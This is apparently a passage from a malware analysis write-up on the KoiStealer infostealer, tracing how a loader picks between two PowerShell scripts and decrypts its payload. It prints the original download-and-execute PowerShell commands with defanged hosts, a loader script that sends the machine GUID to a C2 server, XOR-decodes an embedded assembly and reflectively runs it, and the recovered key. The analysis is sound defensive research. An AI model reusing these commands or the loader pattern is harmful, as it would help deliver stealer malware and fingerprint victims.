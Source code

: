 That was the WinDbg element of this post covered, but the main payload to KoiStealer is the followig assmelby which gets downloaded and execution from this function:

<img width="1300" alt="image" src="https://github.com/user-attachments/assets/dcb97fd7-c99c-40e7-ae97-2632a13caa6d" />

The routine determines which payload to retrieve based on the presence of the C# compiler (csc.exe, version v4.0.30319). If the compiler is found, it downloads sd4.ps1; otherwise, it downloads sd2.ps1. Both PowerShell scripts are designed to fetch and execute the KoiStealer malware.

The corresponding PowerShell commands are:

```
powershell.exe -command IEX(IWR -UseBasicParsing "hxxps[://]casettalecese[.]it/wp-content/uploads/2022/10/sd4.ps1")
powershell.exe -command IEX(IWR -UseBasicParsing "hxxps[://]casettalecese[.]it/wp-content/uploads/2022/10/sd2.ps1")
```

One of these PowerShell scripts looks like the following:


```
[byte[]] $bindata = (Long Hex Array)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$cfb = (new-object net.webclient).downloadstring("hxxp[://]87.121.61[.]55/index.php?id=$guid&subid=FJvijm8h").Split('|')
$k = $cfb[0];

for ($i = 0; $i -lt $bindata.Length ; ++$i)
{
	$bindata[$i] = $bindata[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($bindata)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($cfb[1], $cfb[2], $cfb[3])))

```

The script retrieves the victim machine’s unique GUID from the Windows registry, contacts the C2 and sends the GUID along with a SubID, The server responds with data split by '|' — the first element is an XOR key, and the next elements are additional strings.

The C2 server is no longer alive but the contents can be retrieved from VirusTotal:

<img width="694" alt="image" src="https://github.com/user-attachments/assets/30f3209c-e827-4159-83bf-8b5317329c17" />

We now have the XOR key "LenKQVy4Bh10vp2vt9AE" and can decrypt the assmebly.

<img width="1213" alt="image" src="https://github.com/user-attachments/assets/80a090b0-0a0d-4ec7-8983-d51cfebbb967" />

We can see that the other 2 arguments are passed to the main function:
